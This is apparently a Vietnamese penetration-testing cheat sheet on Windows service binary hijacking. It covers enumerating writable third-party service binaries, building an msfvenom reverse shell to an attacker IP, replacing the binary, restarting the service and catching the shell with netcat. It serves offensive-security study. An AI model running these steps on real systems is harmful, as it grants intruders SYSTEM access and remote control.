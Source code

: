 # Service Binary Hijacking

## Điểm chính khai thác

* Khai thác các dịch vụ Windows không phải hệ thống (binaries không nằm trong C:\Windows) để nâng quyền, tận dụng cấu hình sai hoặc tệp nhị phân có thể ghi.
* Dịch vụ chạy với quyền LocalSystem cung cấp đặc quyền SYSTEM nếu binary bị thay thế bằng mã độc.
* Quyền Modify (M) hoặc Full (F) trên tệp nhị phân dịch vụ cho phép ghi đè, thường thấy ở phần mềm bên thứ ba.
* Khả năng khởi động lại dịch vụ (CanRestart) hoặc kích hoạt khác (như reboot) cần thiết để chạy payload.

## Các bước khai thác

### Kiểm tra lỗ hổng

#### Xác định mục tiêu tiềm năng

Tìm các dịch vụ với binaries không nằm trong C:\Windows để xác định dịch vụ bên thứ ba dễ khai thác:

{% code overflow="wrap" %}

```
Get-WmiObject Win32_Service | Where-Object { -not ($_.PathName -like "C:\Windows*") } | Select-Object Name, DisplayName, PathName
```

{% endcode %}

Liệt kê chi tiết cấu hình dịch vụ để xác định đường dẫn nhị phân và quyền thực thi:

```
cmd /c "sc qc <service>"
```

#### Kiểm tra quyền truy cập hoặc cấu hình

Kiểm tra quyền trên tệp nhị phân dịch vụ để xác định khả năng ghi đè:

```
icacls <file>.exe
```

Tự động tìm dịch vụ có tệp nhị phân dễ sửa đổi bằng PowerUp:

```
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
```

#### Phân tích ngữ cảnh thực thi

Phát hiện tiến trình dịch vụ để xác định hành vi thực thi và quyền:

```
pspy
```

### Thực thi khai thác

#### Chuẩn bị payload hoặc mã khai thác

Tạo reverse shell để thay thế tệp nhị phân dịch vụ:

{% code overflow="wrap" %}

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali_ip> LPORT=443 -f exe -o shell.exe
```

{% endcode %}

Thay thế tệp nhị phân dịch vụ bằng reverse shell:

```
copy shell.exe <file>.exe
```

#### Áp dụng khai thác

Khởi động lại dịch vụ để chạy reverse shell:

```
sc stop <service_name>
sc start <service_name>
```

#### Kích hoạt khai thác

Chờ kết nối reverse shell sau khi dịch vụ khởi động:

```
nc -lvnp 443
```